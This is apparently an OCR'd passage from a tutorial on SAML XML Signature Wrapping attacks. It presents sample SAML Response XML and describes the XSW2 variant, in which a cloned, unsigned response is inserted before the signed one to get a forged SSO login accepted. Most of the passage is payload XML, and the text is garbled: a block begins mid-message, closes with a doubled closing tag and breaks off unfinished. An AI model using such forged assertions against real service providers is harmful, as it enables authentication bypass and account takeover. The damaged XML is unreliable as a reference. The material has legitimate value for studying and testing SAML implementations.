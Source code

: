 ```
<Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
<Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
<StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
</Status>
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
</AuthnStatement>
</Assertion>
</Response>
</Response>
```

Here I have added an XML that you may encounter in real life. What we're doing here is that we add another fake request after an original SAML Response request and send it. This domain we submit allows us to login with SSO if it is not controlled by the Service.

- XSW2 :// Applies to SAML Response messages. We need to append a cloned, unsigned copy of the response before the existing signature.

```
<Response xmlns="urn:oasis:names:tc:SAML:2.0:protocol" ID="_d71c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z" Destination="https://service -provider.com/acs">
<Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
<Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
<StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
</Status>
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
<Issuer>https://identity-provider.com</Issuer>
<Subject>
<NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
<SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
<SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
</SubjectConfirmation>
</Subject>
<Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
<AudienceRestriction>
<Audience>https://service-provider.com</Audience>
</AudienceRestriction>
</Conditions>
<AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
<AuthnContext>
<AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
</AuthnContext>
```